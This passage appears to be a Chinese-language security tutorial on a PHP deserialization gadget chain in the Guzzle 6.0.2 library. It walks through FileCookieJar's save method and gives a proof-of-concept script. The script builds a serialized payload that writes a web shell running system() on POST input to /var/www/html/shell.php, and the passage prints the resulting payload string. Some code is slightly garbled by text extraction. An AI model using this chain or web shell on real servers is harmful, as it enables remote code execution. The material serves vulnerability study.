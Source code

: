 这里使用类对象的filename属性值作为参数传入了save函数.我们来看看save函数具体实现.

FileCookieJar->save()

12345678910111213public function save($filename){$json = [];foreach ($this as $cookie) { /** @var SetCookie $cookie */ if ($cookie->getExpires() && !$cookie->getDiscard()) { $json[] = $cookie->toArray(); } }if (false === file_put_contents($filename, json_encode($json))) { throw new \RuntimeException("Unable to save file {$filename}"); }}

可以看到我们传入的参数最后是直接被作为要写入内容的文件的文件名.这下文件名可控了,如果我们再能够控制文件的内容就能实现getshell了.通过代码可以发现文件的内容为上面一层循环中来得到的数组经过json编码后得到的.而数组中的内容为 $cookie->toArray() ,那么我们得去找到 $cookie对象是在哪定义的来确定他返回的值是什么,以及是否可利用.还有一点,我们还需要过掉那个判断才能给 json 数组赋值.所以我们需要关注的有三个点.

123$cookie->getExpires()!$cookie->getDiscard()$json[] = $cookie->toArray()

我们并不知道$cookie 具体是什么类,我们可以通过搜索函数名,来定位这个类.通过这样定位到了SetCookie类.其代码如下.

1234567891011121314namespace GuzzleHttp\Cookie;class SetCookie ... public function toArray(){ return $this->data; } ... public function getExpires(){ return $this->data['Expires']; } ... public function getDiscard(){ return $this->data['Discard']; }

可以看到那三个方法只是简单的返回了data数组的特定键值.

3.搭建环境进行poc测试

首先在虚拟机里创建这样一个composer.json文件来安装提供POP gadgets的库.

12345{ "require": { "guzzlehttp/guzzle": "6.0.2" }}

之后使用这个文件安装库

![](http://p2.pstatp.com/large/111600062d064e33df74)

然后使用这个库,来构造反序列化的payload

123456789101112<?php require __DIR__ . '/vendor/autoload.php'; use GuzzleHttp\Cookie\FileCookieJar; use GuzzleHttp\Cookie\SetCookie; $obj = new FileCookieJar('/var/www/html/shell.php'); $payload = '<?php echo system($_POST[\'poc\']); ?>'; $obj->setCookie(new SetCookie([ 'Name' => 'foo', 'Value' 'Domain' => $payload, => 'bar', 'Expires' => time()])); file_put_contents('./built_payload_poc', serialize($obj));

运行这个文件得到payload

123# php build_payload.php# cat built_payload_pocO:31:"GuzzleHttp\Cookie\FileCookieJar":3:{s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";s:23:"/var/www/html/shell.php";s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{i:1;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";a:9:{s:4:"Name";s:3:"foo";s:5:"Value";s:3:"bar";s:6:"Domain";s:36:"<?php echo system($_POST['poc']);?>";s:4:"Path";s:1:"/";s:7:"Max-Age";N;s:7:"Expires";i:1450225029;s:6:"Secure";b:0;s:7:"Discard";b:0;s:8:"HttpOnly";b:0;}}}s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;}

现在payload已经生成,我们在创建一个文件来测试这个payload的结果.

123<?php require __DIR__ . '/vendor/autoload.php'; unserialize(file_get_contents("./built_payload_poc"));

这个文件的内容很简单,就是把我们刚刚生成的payload反序列化.来看看效果

![](http://p1.pstatp.com/large/119300023eb2d03e619a)
